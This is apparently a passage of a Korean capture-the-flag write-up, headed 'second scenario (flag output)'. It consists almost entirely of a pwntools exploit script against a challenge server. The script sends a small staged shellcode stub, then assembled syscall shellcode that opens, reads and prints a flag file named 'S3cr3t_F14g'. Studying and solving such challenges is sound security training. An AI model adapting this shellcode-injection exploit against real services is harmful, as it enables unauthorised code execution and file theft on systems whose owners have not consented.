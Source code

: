 ```python
```  
<br><br>

-  **두번째 시나리오(플래그 출력)**  


```python
from pwn import *
#context.log_level="DEBUG"
context(arch="amd64",os="linux",log_level="DEBUG")
p=remote("ctf.j0n9hyun.xyz",3038)
#p=process("./pzshell")
#gdb.attach(p,'code\nb *0xea0+$code\n')

shell="xchg rsi,rdx;"
shell=asm(shell)
shell+=asm('jmp '+hex(0xFFFFFFFFFFFFFFC7+4), vma=0x1, arch='amd64',os='linux')
shell=shell.ljust(8,"\xcc")
log.info(len(shell))
pause()
p.send(shell)

open="lea rdi,[rsp];"
open+="xor rdx,rdx;"
open+="xor rsi,rsi;"
open+="mov rax,2;"
open+="syscall;"

filename="mov rsp,QWORD PTR fs:[0];"
filename+=shellcraft.pushstr('S3cr3t_F14g')

getdents="mov rdi,rax;"
getdents+="lea rsi,[rsp];"
getdents+="xor rdx,rdx;"
getdents+="xor rax,rax;"
getdents+="mov dx,0x3050;"
getdents+="mov rax,0x4e;"
getdents+="syscall;"

read="mov rdx,0x300;"
read+="mov rdi,rax;"
read+="xor rax,rax;"
read+="lea rsi,[rsp];"
read+="syscall;"

write="mov rdx,rax;"
write+="xor rax,rax;"
write+="xor rdi,rdi;"
write+="xor rsi,rsi;"
write+="mov rdi,1;"
write+="mov rax,1;"
write+="lea rsi,[rsp];"
write+="syscall"


p.send(asm(filename)+asm(open)+asm(read)+asm(write))
p.interactive()
```  
